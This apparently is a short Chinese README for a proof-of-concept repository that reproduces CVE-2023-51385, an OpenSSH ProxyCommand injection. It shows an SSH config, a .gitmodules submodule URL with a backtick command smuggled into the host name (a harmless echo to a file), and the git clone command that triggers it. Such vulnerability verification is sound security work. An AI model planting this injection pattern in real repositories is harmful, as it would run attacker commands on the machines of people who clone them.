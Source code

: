 ## 验证CVE-2023-51385

### 首先需要在`~/.ssh/config`增加如下

```
host *.example.com
  ProxyCommand /usr/bin/nc -X connect -x 192.0.2.0:8080 %h %p
```

`.gitmodules`文件语句中存在恶意代码

```
url = ssh://`echo 'hello!world!>cve.txt'`foo.example.com/bar
```

配置完成后,执行下面的指令触发

```
git clone https://github.com/zls1793/CVE-2023-51385_test.git --recurse-submodules
```

详细信息见这篇博客:

https://vin01.github.io/piptagole/ssh/security/openssh/libssh/remote-code-execution/2023/12/20/openssh-proxycommand-libssh-rce.html

